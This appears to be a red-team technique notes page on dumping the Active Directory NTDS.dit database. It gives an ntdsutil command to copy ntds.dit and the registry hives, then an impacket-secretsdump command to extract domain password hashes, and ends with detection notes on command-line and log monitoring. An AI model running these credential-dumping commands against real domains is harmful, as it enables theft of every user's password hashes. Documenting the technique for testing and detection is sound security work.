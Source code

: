 ```yaml
---
description: >-
  NTDS.dit enumeration - file that contains information about Active Directory
  users.
---
```


# NTDS - Domain Controller

## Execution

Dumping the required files using a native windows binary ntdsutil.exe to c:\temp:

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```bash
powershell "ntdsutil.exe 'ac i ntds' 'ifm' 'create full c:\temp' q q"
```
{% endcode-tabs-item %}
{% endcode-tabs %}

We can see that the ntds.dit and SYSTEM as well as SECURITY registry hives are being dumped to c:\temp:

![](../../.gitbook/assets/ntdsutil-attacker.png)

We can then dump password hashes:

{% code-tabs %}
{% code-tabs-item title="attacker@local" %}
```bash
root@~/tools/mitre/ntds# /usr/bin/impacket-secretsdump -system SYSTEM -security SECURITY -ntds ntds.dit local
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../../.gitbook/assets/ntds-hashdump%20%281%29.png)

## Observations

On the victim machine, no susprises:

![](../../.gitbook/assets/ntdsutil-procexp.png)

Monitoring commandline arguments is as usual a good idea as it can reveal attempts to dump ntds.dit:

![](../../.gitbook/assets/ntdsutil-cmdline.png)

Additionally, there are multiple Application logs that can indicate some activity around the ntds.dit which you may be interested in investigating further:

![](../../.gitbook/assets/ntds-appllication-log.png)

{% embed data="{\"url\":\"https://adsecurity.org/?p=2362\",\"type\":\"link\",\"title\":\"Attack Methods for Gaining Domain Admin Rights in Active Directory – Active Directory Security\",\"thumbnail\":{\"type\":\"thumbnail\",\"url\":\"https://adsecurity.org/wp-content/uploads/2015/12/MS14068-01.png\",\"width\":600,\"height\":470,\"aspectRatio\":0.7833333333333333}}" %}

{% embed data="{\"url\":\"https://www.trustwave.com/Resources/SpiderLabs-Blog/Tutorial-for-NTDS-goodness-\(VSSADMIN,-WMIS,-NTDS-dit,-SYSTEM\)/\",\"type\":\"link\",\"title\":\"Tutorial for NTDS goodness \(VSSADMIN, WMIS, NTDS.dit, SYSTEM\)\",\"description\":\"I recently performed an internal penetration test where the NTDS.dit file got me thousands of password hashes. After compromising unpatched Microsoft Windows computers on the client\'s domain, I gained access to a number of domain accounts. Below I\'ll explain how...\",\"icon\":{\"type\":\"icon\",\"url\":\"https://www.trustwave.com/favicon.ico\",\"aspectRatio\":0},\"thumbnail\":{\"type\":\"thumbnail\",\"url\":\"https://www.trustwave.com/uploadedImages/Images/Social\_Share\_Images/Default-Facebook.png\",\"width\":1200,\"height\":627,\"aspectRatio\":0.5225}}" %}



